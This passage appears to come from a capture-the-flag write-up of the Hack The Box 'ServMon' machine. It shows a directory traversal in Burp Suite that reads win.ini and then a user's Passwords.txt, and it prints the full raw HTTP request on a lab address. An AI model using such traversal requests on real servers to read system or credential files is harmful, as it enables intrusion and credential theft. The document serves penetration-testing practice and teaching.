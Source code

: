 ```
```

Here, we use repeater on `burpsuite` to access directory  `/../../../../../../../../../../../../windows/win.ini`. 

![03](/assets/images/htb-machine-servmon/03.png)


From `Directory Traversal` vulnerability, we can access path/directory on the machine, but nothing showed anything. let's see again note from Nadine to Nathan, She said on her note

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

That `Password.txt` on Nathan's Desktop, and we can suggest path is `C:\Users\Nathan\Desktop\Passwords.txt`. We can change request to access directory on burpsuite with `GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1`

![04](/assets/images/htb-machine-servmon/04.png)

Request 
```
GET /Pages/login.htm/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
```
